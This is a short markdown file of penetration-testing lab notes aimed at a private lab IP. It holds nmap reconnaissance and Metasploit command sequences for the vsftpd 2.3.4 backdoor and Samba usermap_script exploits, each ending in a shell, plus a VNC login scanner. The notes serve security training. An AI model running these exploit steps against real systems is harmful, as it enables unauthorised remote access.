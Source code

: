 lab-commands.md :

# Lab commands and notes

> Commands used during the penetration testing lab (lab target IP used in report: 192.168.169.130).
> Do not run these on networks you do not own.

## 1. Basic connectivity
```bash
# ping the target
ping 192.168.169.130

2. Nmap service & OS detection
nmap -sV -O 192.168.169.130
# -sV -> probe open ports to determine service/version
# -O  -> attempt OS detection

3. Metasploit: start console
msfconsole

Exploit FTP (vsftpd backdoor example)
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.169.130
run
# After gaining a shell:
whoami

Exploit VNC (scanner)
search vnc
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.169.130
run

Exploit Samba (usermap_script example)
search usermap_script
use exploit/multi/samba/usermap_script
set RHOST 192.168.169.130
run
# After gaining a shell:
whoami
